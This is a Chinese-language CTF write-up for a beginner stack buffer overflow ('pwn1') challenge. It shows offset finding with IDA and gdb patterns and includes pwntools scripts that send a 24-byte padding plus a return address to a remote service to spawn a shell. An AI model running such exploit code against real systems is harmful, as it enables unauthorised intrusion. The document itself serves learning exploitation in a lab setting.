 # Pwn基础溢出练习

又一个PWN1，先看看安全保护机制

![image-20210616090448865](Pwn基础溢出练习.assets/image-20210616090448865.png)

看看main()

![image-20210616090426195](Pwn基础溢出练习.assets/image-20210616090426195.png)

看看shift+F12字符串

![image-20210616090613289](Pwn基础溢出练习.assets/image-20210616090613289.png)

利用get()溢出到system()，system()上通过Ctrl+E找到地址401040

![image-20210616093513516](Pwn基础溢出练习.assets/image-20210616093513516.png)

双击s字符串，发现溢出长度应为15字节+8字节（db 8 dup(?)），即偏移量23

![image-20210616091621519](Pwn基础溢出练习.assets/image-20210616091621519.png)

db： 定义字节类型变量的伪指令


dup()： 重复定义圆括号中指定的初值，次数由前面的数值决定


?： 只分配存储空间，不指定初值





![image-20210616091911280](Pwn基础溢出练习.assets/image-20210616091911280.png)

开gdb调试```gdb pwn1```

生成溢出字符串```pattern create 200```

`AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA`

启动程序`start`

步进`contin `并输入溢出字符串获得溢出调试

![image-20210616092440447](Pwn基础溢出练习.assets/image-20210616092440447.png)

`pattern offset  (这里粘贴栈底或者rbp的字符串)`

![image-20210616092906718](Pwn基础溢出练习.assets/image-20210616092906718.png)

wc，偏移长度怎么是24？？？

不管了，python脚本一把梭试试看（堆栈平衡要+1）

```python
from pwn import *

p = remote('118.190.151.140',60001)
payload = b'a' * 24 + p64(0x401040 + 1)
p.sendline(payload)

p.interactive()
```

果不其然，翻车了

![image-20210616093826456](Pwn基础溢出练习.assets/image-20210616093826456.png)



仔细检查一下，发现引入函数的地址不对应该是0x401142

![image-20210616095956066](Pwn基础溢出练习.assets/image-20210616095956066.png)

```python
from pwn import *

p = remote('118.190.151.140',60001)
payload = b'a' * 24 + p64(0x401142 + 1)
p.sendline(payload)

p.interactive()
```

成功获得Shell

![image-20210616144418465](Pwn基础溢出练习.assets/image-20210616144418465.png)